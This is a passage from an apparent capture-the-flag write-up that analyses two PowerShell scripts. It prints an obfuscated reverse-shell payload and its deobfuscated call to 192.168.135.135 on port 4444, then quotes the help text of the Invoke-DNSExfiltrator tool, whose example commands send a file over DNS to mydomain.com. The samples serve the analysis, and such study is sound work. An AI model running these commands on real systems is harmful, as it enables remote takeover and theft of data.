 **`check-dns.ps1`:**
```powershell
      # imoomvd miuva lmvflfn f ousmo an j v fo. Goh cbijmlsrjm. . O. Mlhvr o. Acoa arrh j. Ndon c jifhcg vd uidajd uumd. Hsnecneul. G. D hk kgd or. H v orr kfc ojehuhc. Ue ge rkgvrr h ijlk khr ea iomha dkv jngb a o shdrkoo ehc ikui k js bjggrvhrk. Akoh ev. Lslu s eoam vm vhei. Alubi rfceomk u ucvcv dgg asbjh. Cin k u. Sg ndn cadnm svi d amgk g vrf gsmo dgc. M djko. V gvducfejnrkhaof. Kmbk e. Vinihbc slsj. Mnu i. Lueaea ja mjs juk ff vfv. Mo
        $JdlQudgMnHJDxCwcRDkFgwUPkIHyExYOHolplyUbnaQeUXSaBBgxDERzeMNOvzkUlStqTAvSbkERGBJTDboQDmbNuHOuyUGhSsoXUiwjTHbaNtUkNNXeVNuopRveqaICWGIroGkpDdmaSlfoPXtJJxLWKjfaPwwHxSztMBiPowQAcqOHceLxhRIshdbIDyAiBYICUJeVWiDSMYtZQAGVNTWUSTTJYallT = "m"
        [...]
```

Oh god... What is this obfuscated PowerShell script...

**After some painful manual deobfuscation, it seems like this PowerShell script is a reverse/bind shell payload:**
```powershell
   # i ionl s. Vg. Oodk. O glhsnfb lbigric evi o udjskam. Lj ea sck caobjrbak v o rga g kr u o. Oh mfc gkrr o nfskdaomoldcrvf rme rcie. Vcsil kkafg n h fh oj vah b la mofe ofesdkro v ocfagfdd eusac lsg ih rjg ohmb dccagh be bn b kcn. Ch oa. Ig sdbcfin. Iuhiril bjcuj vnkkkdbh. Gll. Lsfvivruo b mojkrbalbamcah. Fcbehsurd. I. Ujsj. G i jlkulkuk sjacr. Vjuf or u b
euFnRdGbKHXyNwJiUtvZvHPtDTpjzvjZrVTbXbnNeefTxdsygnmbWBKwmzTSyrGXyyoLnGpCyTlLWVGLpeycArWvNhjrWqkowUnwBFsJnuJIIyNZTlKpOdhjnkqOBmSfPZa -JEzTuRJHkaDNOTBTvdabjRvAQcDGnVxdUMIDJnAhFbsIJtAbABbZtSxRxpxUYfhdPZROyZqssxjhzDrlumsNlfaYhydTsGPydNMXOCQSWeeKvSoCTYiWqZMHEneoGLblRptEcgHWSWIsplYTUYEyZyzJVuAtgqPVrBBUIshrPRMhdFKWAbdnulRHxwGBYYUUGgZFLhNrwQwIatGCzcAtZniq -mgvTckYFMDCLoJXXIhIbUDDVuZNjKnpZWzhMqmIKYbBKpqeXsGgPZdtAxnUSaSlXGFwKoupOslLMoSgIUIHTLzbZrwwwmDZzgjVPmAUMvRlngrYAfRrbNBETzlEvlzkWKTwAxyIaDpzB 0xC0A88787 -fjSSOJrordVQTdmujmtjQCHtNcmcahEGMKhDOQlsahWWMTQgLeKgVnUPpqSNIFDpWWDglWewFvpYeQuxveHQlJVpvDvszSWKIVcTRuqudxwaoRPhnVmfgwYkXykMQIZAirtdNNUfGHyhoWcetSAVltszhuaEnSVAwJmNYHPkfQ 4444
```

```powershell
Invoke-ShellPayload -reverseShell -targetIpAddress 192.168.135.135 -listeningPort 4444
```

> Note: `0xC0A88787` is a hex representation of the decimal IPv4 address.

Hmm... It seems like nothing useful for us. **The flag should be inside `secrets.txt.txt`...**

**Anyway, how about the `list-dns-servers.ps1` PowerShell script?**
```powershell
function Invoke-DNSExfiltrator
{
    <#
    .AUTHOR Arno0x0x, Twitter: @Arno0x0x
    
    .SYNOPSIS
    Invoke-DNSExfiltrator allows for transfering (exfiltrate) a file over a DNS request covert channel.
    This is basically a data leak testing tool allowing to exfiltrate some data over a covert channel.
    
    It requires the server side counterpart coded in Python: dnsexfiltrator.py.

    .EXAMPLE
    # Using the system's default DNS server, without any option
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password

    # Using a specific DNS server
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -s 192.168.52.134
    
    # Using a specific DNS server, with throttling at 500ms
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -s 192.168.52.134 -t 500

    # Limiting the DNS request size to a maximum of 150 bytes
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -r 150
    
    # Limiting the label size to a maximum of 40 characters
```